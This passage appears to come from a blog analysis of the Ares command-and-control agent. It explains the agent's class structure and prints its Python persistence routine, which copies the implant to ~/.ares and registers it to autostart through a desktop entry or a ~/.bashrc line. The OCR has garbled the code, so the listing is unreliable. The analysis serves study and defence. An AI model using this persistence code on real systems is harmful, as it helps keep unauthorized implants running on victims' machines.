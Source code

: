 Let’s start our journey by analyzing the C2 Agent

## “agent.py”

The agent is located in the file “agent.py”. It consists of one giant class called “Agent” that contains all the functionalities. This class will be called from a function called “main” that in turns will execute the “run” function responsible for running the agent.

![](https://miro.medium.com/v2/resize:fit:798/1*eNZMZHc2Gj1i2fBtPdYkug.png)

Within this function we encounter the first functionality of this agent which persistence.

![](https://miro.medium.com/v2/resize:fit:974/1*QeMrKlaBTeqSek4WhsNuEA.png)

## Persistence

Depending on a boolean read from the configuration file “config.py” we call the persist function.

![](https://miro.medium.com/v2/resize:fit:1400/1*GElJw7H_1w1mQ7HLjK7kcA.png)


```python
def persist (self):

""" Installs the agent """ 
if not getattr(sys, 'frozen', False):
    self.send_output('[!] Persistence only supported on compiled agents.' 
    return
if self.is installed ():
    self. send output ('[!] Agent seems to be already installed.')
    return
if platform.system () == 'Linux'
    persist dir = self .expand path ('~/.ares')
if not os.path.exists (persist_dir):

os.makedirs (persist dir)

agent_path = os.path. join(persist_dir, os.path. basename (sys .executable))

shutil. copyfile (sys.executable, agent_path) os. system(" chmod +x ' + agent_path)

if os.path.exists (self.expand path ("~/ .config/autostart/")):

desktop entry

= "[Desktop Entry]\nVersion=1.0\nType-Application\nName-Ares\nExec=Ss\n'&agent_path

with open (self.expand path ('~/.config/autostart/ares.desktop'), 'w') as f:

f.write (desktop entry)

else:

with open (self .expand path ("~/.bashrc"),

"a") as f:

f.write("\n(if [ $(ps aux|grep

" + os. path. basename (sys .executable) + "¡wc -1) -lt 2 ]; then "

agent _path + "; f1&) \n")

elif platform.system() == 'Windows'
```